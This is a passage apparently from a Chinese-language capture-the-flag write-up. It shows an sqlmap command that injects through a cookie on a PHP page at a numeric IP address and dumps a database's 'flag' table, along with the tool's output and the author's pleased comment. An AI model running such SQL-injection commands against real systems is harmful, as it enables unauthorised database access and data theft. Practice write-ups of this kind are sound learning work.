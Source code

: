 ```shell
sqlmap -u http://120.78.187.100:8082/content.php --cookie "message_id=1412" --dump -T flag --level 2
[10:44:45] [INFO] retrieved: 1
[10:44:45] [INFO] retrieved: flag{b4d_eregi_d0_noT_uSe_1t}
Database: 2018_hdb_waf
Table: flag
[1 entry]
+-------------------------------+
| flag                          |
+-------------------------------+
| flag{b4d_eregi_d0_noT_uSe_1t} |
+-------------------------------+
# 至此，flag 已经成功获得，第一次成功用sqlmap跑出来还是蛮激动的，哈哈哈，爽~
```



### 咕咕 shop

